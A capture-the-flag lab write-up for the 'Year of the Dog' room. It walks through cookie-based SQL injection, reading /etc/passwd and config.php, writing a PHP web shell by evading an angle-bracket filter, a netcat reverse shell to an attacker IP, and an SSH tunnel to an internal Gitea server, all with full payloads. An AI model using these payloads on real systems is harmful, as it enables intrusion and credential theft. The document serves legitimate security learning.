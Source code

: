 # Year of the Dog

A hard room! Having fun!

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
- the following got me a reverse shell: `/shell.php?e=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.154.104+4444+>/tmp/f`. this was then stabilised and improved with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`, Ctrl + Z, `stty raw -echo; fg`
- on the box as `www-data`, I discovered `dylan` was running an instance of gitea (a self contained git server, like gitlab or github) on port `3000`. not accessible from the outside, however, via  `ssh -N -R 3000:localhost:3000 root@10.10.154.104` I could get access to it on my attack machine.
